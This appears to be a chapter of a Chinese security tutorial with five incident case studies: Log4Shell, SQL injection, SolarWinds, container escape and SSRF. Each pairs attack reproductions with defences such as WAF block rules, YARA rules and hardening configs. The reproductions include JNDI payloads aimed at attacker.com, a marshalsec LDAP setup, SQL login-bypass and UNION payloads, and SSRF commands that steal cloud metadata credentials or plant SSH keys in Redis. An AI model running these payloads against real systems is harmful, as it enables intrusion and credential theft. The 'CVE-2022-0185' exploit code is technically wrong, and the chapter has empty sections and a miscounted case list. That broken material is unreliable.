




## 实战案例

### 1. 案例概述

本章通过三个真实的安全事件案例，展示系统安全漏洞的发现、利用、修复全过程。每个案例都遵循"事件背景→攻击分析→漏洞复现→防御方案→经验教训"的结构，帮助读者建立完整的安全事件处理思维。



---

### 2. 案例一：Log4Shell（CVE-2021-44228）

#### 2.1 事件背景

**时间**：2021年12月9日

**影响范围**：
- 全球数十万Java应用受影响
- CVSS评分：10.0（满分）
- 影响Apache Log4j 2.0-beta9 至 2.14.1

**危害程度**：
- 无需认证即可远程代码执行（RCE）
- 攻击门槛极低，脚本小子即可利用
- 影响金融、政府、互联网等多个行业

#### 2.2 漏洞原理

Log4j支持JNDI（Java Naming and Directory Interface）查找，攻击者可以通过构造恶意日志消息触发JNDI注入：

```java
// 攻击者构造的恶意字符串
${jndi:ldap://attacker.com/exploit}

// Log4j解析该字符串时，会发起LDAP请求
// 攻击者的LDAP服务器返回恶意Java类
// 该类在受害者服务器上被实例化执行
```

**攻击流程**：

┌─────────────┐    1.发送恶意请求     ┌─────────────┐
│   攻击者     │ ──────────────────→ │  目标服务器  │
└─────────────┘                      └─────────────┘
       ↑                                    │
       │                                    │ 2.触发JNDI查找
       │                                    ↓
       │                              ┌─────────────┐
       │    4.执行恶意代码             │  LDAP服务器  │
       │ ←─────────────────────────── │  (攻击者)    │
       │                              └─────────────┘
       │                                    ↑
       └────────────────────────────────────┘
              3.返回恶意Java类

#### 2.3 漏洞复现

**环境搭建**：

```bash
# 1. 创建存在漏洞的Java应用
mkdir log4j-poc &amp;&amp; cd log4j-poc

# 2. 使用Maven创建项目（pom.xml包含漏洞版本的Log4j）
cat > pom.xml << 'EOF'
<project>
    <groupId>com.example</groupId>
    <artifactId>log4j-poc</artifactId>
    <version>1.0</version>
    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>  <!-- 存在漏洞的版本 -->
        </dependency>
    </dependencies>
</project>
EOF

# 3. 编写漏洞代码
cat > src/main/java/VulnerableApp.java << 'EOF'
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class VulnerableApp {
    private static final Logger logger = LogManager.getLogger();
    
    public static void main(String[] args) {
        // 模拟用户输入（如用户名、搜索词等）
        String userInput = "${jndi:ldap://attacker.com:1389/Exploit}";
        logger.error("User input: " + userInput);  // 触发漏洞
    }
}
EOF
```

**攻击演示**：

```bash
# 1. 启动恶意LDAP服务器（使用marshalsec）
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar \
    marshalsec.jndi.LDAPRefServer \
    "http://attacker.com:8888/#Exploit" 1389

# 2. 编写恶意类（Exploit.java）
cat > Exploit.java << 'EOF'
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
    static {
        try {
            String[] cmd = {"/bin/bash", "-c", "id &amp;&amp; whoami"};
            Process p = Runtime.getRuntime().exec(cmd);
            BufferedReader br = new BufferedReader(
                new InputStreamReader(p.getInputStream()));
            String line;
            while ((line = br.readLine()) != null) {
                System.out.println(line);
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
EOF

# 3. 编译并启动HTTP服务器提供恶意类
javac Exploit.java
python3 -m http.server 8888

# 4. 触发漏洞（发送恶意请求）
curl -H "X-Api-Version: \${jndi:ldap://attacker.com:1389/Exploit}" \
    http://target-server/api/login
```

#### 2.4 防御方案

**方案一：升级Log4j版本**

```xml
<!-- 升级到安全版本 2.17.1+ -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.17.1</version>
</dependency>
```

**方案二：临时缓解措施**

```bash
# 1. 设置JVM参数禁用JNDI
java -Dlog4j2.formatMsgNoLookups=true -jar app.jar

# 2. 设置环境变量
export LOG4J_FORMAT_MSG_NO_LOOKUPS=true

# 3. 删除JndiLookup类（暴力但有效）
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

**方案三：WAF规则拦截**

```nginx
# Nginx WAF规则
location / {
    # 检测JNDI注入
    if ($http_user_agent ~* "\$\{jndi:") {
        return 403;
    }
    
    # 检测请求体
    if ($request_body ~* "\$\{jndi:") {
        return 403;
    }
}
```

**方案四：RASP防护**

```java
// Java Agent方式拦截JNDI调用
public class Log4jAgent {
    public static void premain(String args, Instrumentation inst) {
        inst.addTransformer((loader, className, classBeingRedefined, 
                            protectionDomain, classfileBuffer) -> {
            if (className.contains("JndiLookup")) {
                // 返回空字节码，阻止JndiLookup类加载
                return new byte[0];
            }
            return null;
        });
    }
}
```

#### 2.5 经验教训

| 维度 | 教训 | 改进措施 |
|------|------|----------|
| 依赖管理 | 第三方库漏洞影响范围广 | 建立SBOM，定期扫描依赖 |
| 输入验证 | 日志内容也是输入 | 对日志消息进行过滤 |
| 纵深防御 | 单一防线容易被突破 | 多层防护（升级+WAF+RASP） |
| 应急响应 | 漏洞爆发后响应要快 | 建立安全事件响应流程 |

---

### 3. 案例二：SQL注入攻击电商系统

#### 3.1 事件背景

**业务场景**：某电商平台用户登录接口存在SQL注入漏洞

**攻击后果**：
- 攻击者获取管理员权限
- 用户数据泄露（约100万条）
- 被篡改订单金额
- 企业声誉严重受损

**漏洞成因**：开发者使用字符串拼接构建SQL查询

#### 3.2 漏洞分析

**存在漏洞的代码**：

```python
# Flask后端登录接口
@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')
    
    # ❌ 危险：字符串拼接，存在SQL注入
    query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    result = db.execute(query)
    
    if result:
        session['user_id'] = result[0]['id']
        return jsonify({'status': 'success'})
    return jsonify({'status': 'failed'}), 401
```

**攻击Payload**：

# 绕过登录认证
username: admin' --
password: anything

# 实际执行的SQL：
SELECT * FROM users WHERE username='admin' --' AND password='anything'
-- -- 注释掉了密码验证

**更复杂的注入（联合查询）**：

# 获取数据库结构
username: ' UNION SELECT table_name,null,null FROM information_schema.tables--
password: x

# 获取用户数据
username: ' UNION SELECT username,password,null FROM users--
password: x

#### 3.3 漏洞复现

```bash
# 使用sqlmap自动化注入
sqlmap -u "http://target.com/login" \
    --data="username=admin&amp;password=test" \
    --batch \
    --dbs

# 手动复现（使用curl）
curl -X POST http://target.com/login \
    -d "username=admin'--&amp;password=anything" \
    -v
```

#### 3.4 防御方案

**方案一：参数化查询（推荐）**

```python
# ✅ 安全：参数化查询
@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')
    
    # 使用参数化查询
    query = "SELECT * FROM users WHERE username = %s AND password = %s"
    result = db.execute(query, (username, hash_password(password)))
    
    if result:
        session['user_id'] = result[0]['id']
        return jsonify({'status': 'success'})
    return jsonify({'status': 'failed'}), 401
```

**方案二：ORM方式**

```python
# ✅ 安全：使用SQLAlchemy ORM
from flask_sqlalchemy import SQLAlchemy

db = SQLAlchemy()

class User(db.Model):
    __tablename__ = 'users'
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True)
    password_hash = db.Column(db.String(128))

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')
    
    # ORM自动处理参数化
    user = User.query.filter_by(username=username).first()
    
    if user and verify_password(user.password_hash, password):
        session['user_id'] = user.id
        return jsonify({'status': 'success'})
    return jsonify({'status': 'failed'}), 401
```

**方案三：输入验证**

```python
import re

def validate_input(value, input_type='generic'):
    """输入验证白名单"""
    patterns = {
        'username': r'^[a-zA-Z0-9_]{3,32}$',
        'email': r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$',
        'generic': r'^[a-zA-Z0-9\s@.\-_]+$'
    }
    
    pattern = patterns.get(input_type, patterns['generic'])
    if not re.match(pattern, value):
        raise ValueError(f"Invalid input: {input_type}")
    return value
```

**方案四：WAF规则**

```nginx
# Nginx配置WAF规则
location /api/login {
    # 检测SQL注入特征
    if ($request_body ~* "(union|select|insert|update|delete|drop|exec)") {
        return 403;
    }
    
    # 检测注释符
    if ($request_body ~* "(\-\-|\#|\/\*)") {
        return 403;
    }
}
```

#### 3.5 SQL注入类型详解

| 注入类型 | 特征 | 利用方式 | 危害等级 |
|----------|------|----------|----------|
| 联合查询注入 | 使用UNION SELECT | 获取任意表数据 | 高 |
| 布尔盲注 | 通过页面返回差异推断 | 逐字符提取数据 | 中 |
| 时间盲注 | 通过响应延迟推断 | 数据泄露 | 中 |
| 堆叠查询 | 使用分号执行多条SQL | 执行任意SQL | 极高 |
| 报错注入 | 利用数据库报错信息 | 获取数据 | 中 |

---

### 4. 案例三：供应链攻击（SolarWinds事件）

#### 4.1 事件背景

**时间**：2020年12月

**攻击方式**：供应链攻击（Supply Chain Attack）

**影响范围**：
- SolarWinds Orion软件被植入后门
- 约18,000个组织下载了被污染的更新
- 包括美国财政部、国土安全部等政府机构
- 攻击持续约9个月未被发现

**攻击特点**：
- 通过合法软件更新渠道分发
- 高度隐蔽，传统安全工具难以检测
- 针对性攻击，只对高价值目标激活

#### 4.2 攻击流程



**后门代码（SUNBURST）**：

```c
// 简化的后门逻辑（实际代码更复杂）
void backdoor_checkin() {
    // 1. 等待12-14天（避免沙箱检测）
    sleep(random(12, 14) * 24 * 3600);
    
    // 2. 生成DGA域名（域名生成算法）
    char* c2_domain = generate_domain();
    
    // 3. 与C2服务器通信
    connect_to_c2(c2_domain);
    
    // 4. 接收指令
    while (1) {
        command = receive_command();
        if (is_target_value()) {
            execute_command(command);  // 只对高价值目标执行
        }
    }
}
```

#### 4.3 检测方法

**方法一：IOC检测**

```bash
# 检测已知恶意文件哈希
sha256sum -c solarwinds_iocs.txt

# 检测恶意域名通信
grep -r "avsvmcloud.com" /var/log/dns.log

# 检测异常网络连接
netstat -an | grep -E "ESTABLISHED.*:(443|8443)"
```

**方法二：YARA规则**

```yara
rule SUNBURST_Backdoor {
    meta:
        description = "Detects SolarWinds SUNBURST backdoor"
        author = "Security Team"
        date = "2020-12-13"
    
    strings:
        $s1 = "SolarWinds.Orion.Core.BusinessLayer.dll" ascii
        $s2 = "avsvmcloud.com" ascii
        $s3 = "OrionImprovementBusinessLayer" ascii
        
    condition:
        uint16(0) == 0x5A4D and
        filesize < 5MB and
        all of ($s*)
}
```

**方法三：行为分析**

```python
# 使用EDR检测异常行为
import psutil
import hashlib

def detect_suspicious_behavior():
    """检测SolarWinds后门行为特征"""
    suspicious_indicators = []
    
    # 检测异常进程
    for proc in psutil.process_iter(['pid', 'name', 'cmdline']):
        cmdline = ' '.join(proc.info['cmdline'] or [])
        
        # 检测可疑的网络连接
        if 'SolarWinds' in proc.info['name']:
            connections = proc.connections()
            for conn in connections:
                if conn.status == 'ESTABLISHED':
                    suspicious_indicators.append({
                        'pid': proc.info['pid'],
                        'remote': conn.raddr,
                        'timestamp': datetime.now()
                    })
    
    return suspicious_indicators
```

#### 4.4 防御方案

**方案一：软件物料清单（SBOM）**

```yaml
# SBOM示例（ CycloneDX格式）
bomFormat: CycloneDX
specVersion: '1.4'
version: 1
components:
  - type: library
    name: SolarWinds.Orion.Core.BusinessLayer
    version: 2020.2.1
    hashes:
      - alg: SHA-256
        value: "expected_hash_value"
    licenses:
      - license:
          name: Proprietary
```

**方案二：代码签名验证**

```bash
# 验证软件签名
gpg --verify software-package.sig software-package.tar.gz

# 验证证书链
openssl verify -CAfile ca-cert.pem software-cert.pem

# 检测篡改
sha256sum -c expected_checksums.txt
```

**方案三：零信任架构**

```python
# 微服务间调用验证
def verify_service_call(caller, callee, request):
    """零信任服务调用验证"""
    # 1. 验证调用方身份
    if not verify_mtls(caller):
        return False, "mTLS verification failed"
    
    # 2. 验证授权（ABAC策略）
    policy = load_policy(caller, callee)
    if not evaluate_policy(policy, request):
        return False, "Authorization denied"
    
    # 3. 记录审计日志
    log_audit_event(caller, callee, request)
    
    return True, "Allowed"
```

**方案四：运行时防护**

```yaml
# Kubernetes NetworkPolicy
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: solarwinds-isolation
spec:
  podSelector:
    matchLabels:
      app: solarwinds
  policyTypes:
    - Ingress
    - Egress
  ingress:
    - from:
        - podSelector:
            matchLabels:
              role: monitoring
      ports:
        - protocol: TCP
          port: 443
  egress:
    - to:
        - ipBlock:
            cidr: 10.0.0.0/8  # 仅允许内网通信
      ports:
        - protocol: TCP
          port: 443
```

#### 4.5 供应链安全最佳实践



---

### 5. 案例四：容器逃逸攻击

#### 5.1 事件背景

**漏洞类型**：容器运行时漏洞导致容器逃逸

**影响范围**：
- Docker、containerd等主流容器运行时
- 攻击者可从容器内获取宿主机权限
- 影响Kubernetes集群安全

**漏洞原理**：容器共享宿主机内核，内核漏洞可导致隔离失效

#### 5.2 漏洞利用（CVE-2022-0185）

```c
// 简化的漏洞利用代码（用于理解原理）
#define _GNU_SOURCE
#include <fcntl.h>
#include <sys/ioctl.h>
#include <linux/nsfs.h>

int main() {
    // 1. 打开漏洞文件描述符
    int fd = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    
    // 2. 触发内核漏洞
    ioctl(fd, NS_GET_USERNS, &amp;userns_fd);
    
    // 3. 创建新用户命名空间
    unshare(CLONE_NEWUSER | CLONE_NEWNS);
    
    // 4. 挂载proc获取宿主机访问权限
    mount("proc", "/proc", "proc", 0, NULL);
    
    // 5. 切换到宿主机root
    chroot("/host");
    chdir("/");
    
    // 6. 执行宿主机命令
    system("/bin/bash -p");
    
    return 0;
}
```

#### 5.3 防御方案

**方案一：最小权限原则**

```yaml
# Kubernetes安全上下文
apiVersion: v1
kind: Pod
metadata:
  name: secure-pod
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000
    fsGroup: 2000
    seccompProfile:
      type: RuntimeDefault
  containers:
  - name: app
    image: myapp:latest
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop:
          - ALL
    volumeMounts:
    - name: tmp
      mountPath: /tmp
  volumes:
  - name: tmp
    emptyDir: {}
```

**方案二：seccomp配置**

```json
{
  "defaultAction": "SCMP_ACT_ERRNO",
  "architectures": ["SCMP_ARCH_X86_64"],
  "syscalls": [
    {
      "names": ["read", "write", "open", "close", "stat", "fstat", 
                "mmap", "mprotect", "munmap", "brk", "ioctl"],
      "action": "SCMP_ACT_ALLOW"
    },
    {
      "names": ["unshare", "clone", "mount"],
      "action": "SCMP_ACT_ERRNO"
    }
  ]
}
```

**方案三：AppArmor策略**

```bash
# /etc/apparmor.d/docker-secure
#include <tunables/global>

profile docker-secure flags=(attach_disconnected,mediate_deleted) {
  #include <abstractions/base>

  # 禁止写入敏感目录
  deny /proc/sys/** w,
  deny /sys/** w,
  deny /dev/** w,
  
  # 限制网络访问
  network inet tcp,
  network inet udp,
  deny network raw,
  
  # 限制文件访问
  /app/** r,
  /tmp/** rw,
  deny /etc/shadow r,
  deny /etc/passwd w,
}
```

**方案四：容器镜像安全**

```dockerfile
# 安全的Dockerfile
FROM gcr.io/distroless/static-debian12:nonroot

# 不安装不必要的包
# 不使用root用户
USER nonroot:nonroot

# 只复制必要文件
COPY --from=builder /app/server /server

# 设置只读文件系统（K8s中配置）
ENTRYPOINT ["/server"]
```

#### 5.4 容器安全检查清单

| 检查项 | 要求 | 检查命令 |
|--------|------|----------|
| 非root运行 | 容器不以root身份运行 | `kubectl get pod -o jsonpath='{.items[*].spec.containers[*].securityContext.runAsNonRoot}'` |
| 只读根文件系统 | 根文件系统只读 | `kubectl get pod -o jsonpath='{.items[*].spec.containers[*].securityContext.readOnlyRootFilesystem}'` |
| 无特权模式 | 禁用privileged模式 | `kubectl get pod -o jsonpath='{.items[*].spec.containers[*].securityContext.privileged}'` |
| 资源限制 | 设置CPU和内存限制 | `kubectl get pod -o jsonpath='{.items[*].spec.containers[*].resources}'` |
| 镜像扫描 | 无高危漏洞 | `trivy image myapp:latest` |

---

### 6. 案例五：SSRF攻击内网服务

#### 6.1 事件背景

**业务场景**：某Web应用提供URL预览功能，允许用户输入URL获取网页内容

**漏洞原理**：服务器端请求伪造（SSRF）——攻击者可利用服务器访问内网资源

**攻击后果**：
- 访问AWS元数据服务获取临时凭证
- 扫描内网服务和端口
- 读取配置文件获取敏感信息

#### 6.2 漏洞代码

```python
# 存在SSRF漏洞的代码
import requests
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/preview')
def preview_url():
    """URL预览功能"""
    url = request.args.get('url')
    
    # ❌ 未验证URL，直接发起请求
    try:
        response = requests.get(url, timeout=5)
        return jsonify({
            'status': 'success',
            'content': response.text[:1000]
        })
    except Exception as e:
        return jsonify({'status': 'error', 'message': str(e)}), 500
```

#### 6.3 攻击利用

```bash
# 1. 获取AWS元数据
curl "http://target.com/preview?url=http://169.254.169.254/latest/meta-data/"

# 2. 获取AWS临时凭证
curl "http://target.com/preview?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# 3. 扫描内网端口
for port in 80 443 3306 6379 8080; do
    curl -s "http://target.com/preview?url=http://192.168.1.1:$port" | head -1
done

# 4. 读取Kubernetes API
curl "http://target.com/preview?url=https://kubernetes.default.svc/api/v1/namespaces"

# 5. 攻击内网Redis
curl "http://target.com/preview?url=http://192.168.1.100:6379/" \
    --data-urlencode "payload=SET ssh-rsa AAAA... root@attacker"
```

#### 6.4 防御方案

```python
# ✅ 安全的URL预览实现
import ipaddress
import socket
from urllib.parse import urlparse
import requests

def is_safe_url(url):
    """验证URL安全性"""
    try:
        parsed = urlparse(url)
        
        # 1. 只允许HTTP/HTTPS协议
        if parsed.scheme not in ('http', 'https'):
            return False, "Only HTTP/HTTPS allowed"
        
        # 2. 解析主机名
        hostname = parsed.hostname
        if not hostname:
            return False, "Invalid hostname"
        
        # 3. 检查是否为内网地址
        try:
            ip = ipaddress.ip_address(socket.gethostbyname(hostname))
            if ip.is_private or ip.is_loopback or ip.is_link_local:
                return False, "Internal addresses not allowed"
        except socket.gaierror:
            return False, "Cannot resolve hostname"
        
        # 4. 检查元数据服务地址
        if hostname in ('169.254.169.254', 'metadata.google.internal'):
            return False, "Metadata service blocked"
        
        return True, "Safe"
    except Exception as e:
        return False, str(e)

@app.route('/preview')
def preview_url():
    """安全的URL预览功能"""
    url = request.args.get('url')
    
    # 验证URL安全性
    safe, reason = is_safe_url(url)
    if not safe:
        return jsonify({'status': 'error', 'message': reason}), 400
    
    try:
        # 使用安全的请求配置
        response = requests.get(url, timeout=5, allow_redirects=False)
        return jsonify({
            'status': 'success',
            'content': response.text[:1000]
        })
    except Exception as e:
        return jsonify({'status': 'error', 'message': str(e)}), 500
```

**网络层防御**：

```bash
# iptables规则阻止SSRF
# 允许出站到外网
iptables -A OUTPUT -d 10.0.0.0/8 -j DROP
iptables -A OUTPUT -d 172.16.0.0/12 -j DROP
iptables -A OUTPUT -d 192.168.0.0/16 -j DROP
iptables -A OUTPUT -d 169.254.0.0/16 -j DROP
iptables -A OUTPUT -p tcp --dport 80 -j ACCEPT
iptables -A OUTPUT -p tcp --dport 443 -j ACCEPT
iptables -A OUTPUT -j DROP
```

---

### 7. 事件响应流程

#### 7.1 应急响应步骤



#### 7.2 取证与分析

```bash
# 1. 保存系统状态
ps auxf > processes.txt
netstat -tlnp > network.txt
last -50 > login_history.txt

# 2. 保存日志
cp -r /var/log/ /evidence/logs/
tar -czf evidence.tar.gz /var/log/ /etc/ /tmp/

# 3. 内存取证
dd if=/dev/mem of=memory.dump bs=1M
volatility -f memory.dump imageinfo

# 4. 磁盘镜像
dd if=/dev/sda of=disk.img bs=4M
md5sum disk.img > checksums.txt
```

#### 7.3 沟通模板

【安全事件通报 - 初始评估】

事件编号：SEC-2024-XXX
发现时间：YYYY-MM-DD HH:MM
事件级别：P0/P1/P2/P3
影响范围：[受影响系统/用户]

初步判断：
[简要描述事件性质和影响]

已采取措施：
1. [隔离措施]
2. [证据保全]
3. [通知相关方]

下一步计划：
1. [根因分析时间表]
2. [修复方案]
3. [恢复时间预估]

通报人：[姓名]
更新频率：每X小时

---

### 8. 经验总结

#### 8.1 安全设计原则

| 原则 | 说明 | 实践要点 |
|------|------|----------|
| 最小权限 | 只授予完成任务所需的最小权限 | 定期审查权限，及时回收 |
| 纵深防御 | 多层安全防护 | 不依赖单一安全机制 |
| 失败安全 | 出错时默认拒绝 | 默认拒绝策略，显式授权 |
| 职责分离 | 敏感操作需多人参与 | 关键操作双人复核 |
| 安全默认 | 默认配置即安全 | 安装后无需额外配置 |

#### 8.2 常见错误

1. **信任用户输入**：所有外部输入都是不可信的，必须验证和清理
2. **硬编码密钥**：密钥应该存储在安全的密钥管理系统中
3. **日志记录敏感信息**：密码、Token等不应出现在日志中
4. **忽视依赖安全**：第三方库可能包含已知漏洞
5. **缺乏监控告警**：没有监控就无法及时发现安全事件

#### 8.3 持续改进

```yaml
# 安全成熟度模型
levels:
  L1_初始级:
    - 安全意识培训
    - 基本代码审查
    - 漏洞扫描
    
  L2_可重复级:
    - SDL流程
    - 渗透测试
    - 安全编码规范
    
  L3_已定义级:
    - 威胁建模
    - 安全架构评审
    - 自动化安全测试
    
  L4_已管理级:
    - 安全度量指标
    - 持续安全监控
    - 红蓝对抗
    
  L5_优化级:
    - 安全左移
    - 零信任架构
    - 安全即代码
```

---

### 9. 工具推荐

| 工具类型 | 工具名称 | 用途 |
|----------|----------|------|
| 漏洞扫描 | Nmap, Nessus | 网络和服务漏洞扫描 |
| Web安全 | Burp Suite, OWASP ZAP | Web应用渗透测试 |
| 代码审计 | SonarQube, Checkmarx | 静态代码分析 |
| 依赖扫描 | Snyk, Dependabot | 依赖漏洞检测 |
| 容器安全 | Trivy, Clair | 镜像漏洞扫描 |
| 渗透测试 | Metasploit, Cobalt Strike | 渗透测试框架 |
| 取证分析 | Volatility, Autopsy | 数字取证 |
| SIEM | ELK, Splunk | 安全事件管理 |

---

### 10. 本节小结

本节通过五个真实的安全事件案例，展示了系统安全漏洞的发现、利用和修复全过程。关键要点：

1. **Log4Shell**：第三方库漏洞影响范围广，需要建立依赖管理机制
2. **SQL注入**：输入验证和参数化查询是基本防护
3. **供应链攻击**：软件完整性验证和零信任架构是关键
4. **容器逃逸**：最小权限和运行时防护不可少
5. **SSRF**：URL验证和网络层防护需要配合使用

安全是一个持续的过程，需要在设计、开发、部署、运维各个环节都保持警惕。建立完善的安全流程和响应机制，才能有效应对不断演变的安全威胁。
